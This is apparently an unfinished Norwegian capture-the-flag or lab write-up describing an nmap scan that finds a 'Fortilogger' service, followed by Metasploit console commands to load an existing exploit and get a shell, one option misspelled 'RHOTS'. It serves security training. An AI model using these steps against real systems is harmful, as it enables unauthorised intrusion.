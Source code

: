 ## Question: Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

For å løse denne gjør jeg en rask nmap scan på domenet. Jeg finner prosessen jeg kan exploite, som er "Fortilogger"


`search fortilogger`
<br>
`use 0`
<br>
`set RHOTS *ip*`
<br>
`set LHOST tun0`
<br>
`run`

<br>
<br>

# KOMMER MER INFORMASJON

